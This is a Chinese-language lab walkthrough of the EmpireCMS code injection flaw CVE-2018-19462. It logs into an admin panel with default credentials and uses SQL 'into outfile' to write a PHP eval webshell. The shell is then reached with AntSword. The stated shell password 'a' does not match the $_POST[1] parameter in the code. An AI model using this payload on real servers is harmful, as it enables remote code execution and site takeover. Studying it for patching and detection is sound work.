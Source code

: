 # EmpireCMS代码注入(CVE-2018-19462)
## 漏洞描述
EmpireCMS7.5及之前版本中的admindbDoSql.php文件存在代码注入漏洞。该漏洞源于外部输入数据构造代码段的过程中,网路系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞生成非法的代码段,修改网络系统或组件的预期的执行控制流。

## 影响版本
EmpireCMS<=7.5

## 利用流程
1.访问地址：http://118.193.36.37:60736/empirecms/e/admin/ 并登录admin/123456
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/1.jpg)
2.点击系统 -> 备份与恢复数据 -> 执行SQL语句：
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/2.jpg)
3.尝试写入一句话木马：
```
select '<?php @eval($_POST[1])?>' into outfile 'Path/shell.php'
```
构造尝试Path，直到试出正确地址
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/3.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/4.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/5.jpg)
```
select '<?php @eval($_POST[1])?>' into outfile '/var/www/html/shell.php'
```
4.尝试连接一句话木马：
```
http://118.193.36.37:60736/shell.php
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/6.jpg)
5.蚁剑连接 
```
http://118.193.36.37:60736/shell.php	密码a
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/7.jpg)